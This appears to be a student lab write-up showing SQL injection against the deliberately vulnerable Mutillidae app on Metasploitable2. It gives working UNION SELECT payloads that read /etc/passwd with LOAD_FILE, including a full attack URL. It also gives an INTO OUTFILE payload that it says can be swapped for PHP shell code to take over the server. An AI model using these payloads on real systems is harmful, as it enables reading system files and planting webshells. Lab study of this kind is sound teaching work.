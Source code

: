 ![Screenshot 2024-04-28 133803](https://github.com/22008496/sqlinjection/assets/119476113/91042180-0a7b-4fc1-ad80-7fd25289637a)

## Reading and writing files on the web-server

We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and 

passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![Screenshot 2024-04-28 133934](https://github.com/22008496/sqlinjection/assets/119476113/ffa599ad-b9a2-4ff4-aaae-65d265e41f33)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the 

“/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello 

World!’,null,null,null into outfile ‘/tmp/hello.txt’).






## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
